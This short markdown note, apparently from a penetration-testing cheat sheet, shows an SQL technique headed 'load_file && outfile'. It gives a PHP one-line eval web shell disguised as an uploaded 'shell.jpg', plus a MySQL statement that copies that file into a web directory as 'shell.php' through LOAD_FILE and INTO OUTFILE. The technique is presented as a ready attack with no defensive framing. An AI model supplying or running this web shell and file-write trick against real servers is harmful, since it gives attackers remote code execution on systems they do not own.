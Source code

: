# SQL

## load_file && outfile

``` sql
# shell.jpg content is <?php @eval($_POST[value]);?>
select LOAD_FILE("D:\\www\\uploads\\images\\shell.jpg") into OUTFILE "D:\\www\\uploads\\images\\shell.php";
```
